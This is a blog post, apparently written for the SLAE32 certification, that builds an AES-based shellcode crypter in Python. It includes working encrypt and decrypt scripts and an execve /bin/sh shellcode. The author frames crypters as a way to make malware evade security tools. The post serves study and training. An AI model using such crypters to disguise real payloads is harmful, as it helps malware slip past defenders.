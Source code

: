 ```yaml
---
layout: single
title: "SLAE: Custom Shellcode Crypter"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-25
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
  - infosec
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_7)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532

Our 7th and final assignment for SLAE32 we will create a custom shellcode crypter.

Crypters are used to encrypt malware for the purpose of security evasion. It allows malware to masquerade as harmless code until such time it is executed.

The encryption method I have chosen is "Rijndael" (After the designers Vincent Rijmen and Joan Daemen) AKA Advanced Encryption Standard.

Advanced cryptography is a bit beyond my current skill level, however I will attempt to provide a low-level explanation.

AES is a form of symmetric encryption; symmetric meaning the same key used to encrypt is used to decrypt. To contrast this, RSA (typically used for remote connections) is asymmetric, using a public (server) and private (client) key. So in RSA, if you were to encrypt with the public key, the private key would be required to decrypt and vice versa. However with AES the same key that was used in encryption will need to be fed for decryption.

AES256 encrypts in 14 rounds, with 1.1 x 10^77 possible combinations.
Rather than encrypting a string, AES takes the bytes and lays them out in columns within a 4x4 grid.

![grid](/assets/images/slae_7/1.JPG) source [computerphile](https://www.youtube.com/watch?v=O4xNJsjtN6E)

It then works through a varying number of rounds where it will xor information against part of the key, substitute bytes and finally permute until we have an incredibly tough cypher.

![AES_round](/assets/images/slae_7/2.JPG)

Now that I have finished procrastinating, it is time to look at writing our own.
Luckily for me, Python has modules that can aid this task.
I read up on what is required at the following link: [https://www.novixys.com/blog/using-aes-encryption-decryption-python-pycrypto/](https://www.novixys.com/blog/using-aes-encryption-decryption-python-pycrypto/)


```
from Crypto.Cipher import AES
import sys

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80") # must be divisible by 16

key = ("SecurityTubeSLAE") # must be 16 bytes

iv = ("l0lZ") * 4 # must be 16 bytes

if len(key)!=16:
	print("[!]key MUST be 16 bytes\n[!]Exiting")
	sys.exit()
if len(iv)!=16:
	print("[!]iv MUST be 16 bytes\n[!]Exiting")
	sys.exit()
cipher = AES.new(key, AES.MODE_CBC, iv)


if len(shellcode)%16 !=0:
	print("[!]shellcode not divisible by 16, padding")
	remainder = len(shellcode)%16 #figure out how many extra chars there are stopping it being divisible by 16
	padnumber = 16 - remainder #figure out how many characters we need to make up the difference
	shellcode = shellcode + ('1' * padnumber) #add exactly that many chars to the end of shellcode, thus making it divisible by 16

print("Padded by "+str(padnumber))
encrypt = cipher.encrypt(shellcode) # use cypher to encrypt ourshellcode against specified key and iv
encoded = ""
for x in bytearray(encrypt): #process code to give us shellcode as we have done in previous assignments
	  encoded += '\\x'
	  encrypt = '%02x' % x
	  encoded += encrypt

print("Encrypted shellcode: "+encoded)
```
Running our code as below gives us our encrypted string

![encrypted](/assets/images/slae_7/3.JPG)

Taking the encrypted string and placing it in our decoder before running it yields the exact same shellcode we originally placed in our encrypter script - thus, the string has been decrypted.

```
from Crypto.Cipher import AES
 
shellcode = ("\xc9\xc9\x0f\xaf\xf8\x6c\x82\x69\xa6\x95\x25\x1e\xdd\x5e\xbc\x79\xd0\xec\xdb\xa5\x81\xa0\xfe\x55\x56\x6d\xe8\x7a\xed\x08\xc9\x99")

key = ("SecurityTubeSLAE") # must be 16 bytes

iv = ("l0lZ") * 4 # must be 16 bytes
 
cipher = AES.new(key, AES.MODE_CBC, iv)
padnumber=int("7") 
decrypt = cipher.decrypt(shellcode)
encoded = ""     

for x in bytearray(decrypt):
	  encoded += '\\x'
	  dec = '%02x' % x#(x & 0xff)
	  encoded += dec
 
print encoded[0:-padnumber*4]
```

![decrypted](/assets/images/slae_7/4.JPG)


